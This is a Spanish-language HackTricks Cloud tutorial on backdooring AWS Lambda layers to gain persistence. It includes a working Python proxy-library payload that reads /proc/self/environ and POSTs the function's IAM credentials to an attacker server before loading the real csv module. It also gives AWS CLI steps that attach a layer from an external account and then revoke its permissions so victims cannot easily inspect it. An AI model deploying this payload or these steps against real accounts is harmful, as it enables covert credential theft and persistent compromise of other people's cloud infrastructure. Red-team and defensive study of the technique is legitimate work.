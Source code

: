 # AWS - Persistencia de Capas de Lambda

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Capas de Lambda

Una capa de Lambda es un archivo de archivo .zip que **puede contener código adicional** u otro contenido. Una capa puede contener bibliotecas, un [tiempo de ejecución personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), datos o archivos de configuración.

Es posible incluir hasta **cinco capas por función**. Cuando incluyes una capa en una función, los **contenidos se extraen al directorio `/opt`** en el entorno de ejecución.

Por **defecto**, las **capas** que creas son **privadas** para tu cuenta de AWS. Puedes optar por **compartir** una capa con otras cuentas o **hacer** la capa **pública**. Si tus funciones consumen una capa que publicó una cuenta diferente, tus funciones pueden **seguir utilizando la versión de la capa después de que se haya eliminado, o después de que se haya revocado tu permiso para acceder a la capa**. Sin embargo, no puedes crear una nueva función o actualizar funciones utilizando una versión de capa eliminada.

Las funciones implementadas como una imagen de contenedor no utilizan capas. En su lugar, empaquetas tu tiempo de ejecución preferido, bibliotecas y otras dependencias en la imagen del contenedor cuando construyes la imagen.

### Ruta de carga de Python

La ruta de carga que Python utilizará en lambda es la siguiente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifique cómo los directorios en las **posiciones** **segunda** y tercera están ocupados por los directorios donde se descomprimen los archivos de las **capas de Lambda**: **`/opt/python/lib/python3.9/site-packages`** y **`/opt/python`**

{% hint style="danger" %}
Si un atacante logra **instalar un backdoor** en una **capa de Lambda** utilizada o **agregar una** que **ejecute código arbitrario cuando se cargue una biblioteca común**, podrá ejecutar código malicioso en cada invocación de la lambda.
{% endhint %}

Por lo tanto, los requisitos son:

* **Verificar las bibliotecas** que son **cargadas** por el código de las víctimas
* Crear una **biblioteca proxy con capas de Lambda** que **ejecutará código personalizado** y **cargará la biblioteca original**.

### Bibliotecas precargadas

{% hint style="warning" %}
Al abusar de esta técnica, encontré una dificultad: Algunas bibliotecas ya están **cargadas** en el tiempo de ejecución de Python cuando se ejecuta su código. Esperaba encontrar cosas como `os` o `sys`, pero **incluso la biblioteca `json` estaba cargada**.\
Para abusar de esta técnica de persistencia, el código necesita **cargar una nueva biblioteca que no esté cargada** cuando se ejecute el código.
{% endhint %}

Con un código Python como este, es posible obtener la **lista de bibliotecas que están precargadas** dentro del tiempo de ejecución de Python en Lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Y esta es la **lista** (verifica que las bibliotecas como `os` o `json` ya estén allí)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Y esta es la lista de **bibliotecas** que **lambda incluye instaladas por defecto**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Infiltración en Capas de Lambda

En este ejemplo supongamos que el código objetivo está importando **`csv`**. Vamos a estar **infiltrando la importación de la biblioteca `csv`**.

Para hacer eso, vamos a **crear el directorio csv** con el archivo **`__init__.py`** en él en una ruta que es cargada por lambda: **`/opt/python/lib/python3.9/site-packages`**\
Entonces, cuando se ejecute la lambda e intente cargar **csv**, nuestro archivo **`__init__.py` será cargado y ejecutado**.\
Este archivo debe:

* Ejecutar nuestra carga útil
* Cargar la biblioteca csv original

Podemos hacer ambas cosas con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Luego, crea un zip con este código en la ruta **`python/lib/python3.9/site-packages/__init__.py`** y agrégalo como una capa lambda.

Puedes encontrar este código en [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

La carga útil integrada **enviará las credenciales IAM a un servidor LA PRIMERA VEZ que se invoque o DESPUÉS de reiniciar el contenedor lambda** (cambio de código o lambda fría), pero también se podrían integrar **otras técnicas** como las siguientes:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Capas Externas

Ten en cuenta que es posible usar **capas lambda de cuentas externas**. Además, una lambda puede usar una capa de una cuenta externa incluso si no tiene permisos.\
También ten en cuenta que el **número máximo de capas que una lambda puede tener es 5**.

Por lo tanto, para mejorar la versatilidad de esta técnica un atacante podría:

* Inyectar un backdoor en una capa existente del usuario (nada es externo)
* **Crear** una **capa** en **su cuenta**, dar acceso a la **cuenta de la víctima** para usar la capa, **configurar** la **capa** en la Lambda de la víctima y **eliminar el permiso**.
* La **Lambda** seguirá pudiendo **usar la capa** y la **víctima** no tendrá una forma sencilla de **descargar el código de las capas** (aparte de obtener una reverse shell dentro de la lambda)
* La víctima **no verá las capas externas** utilizadas con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
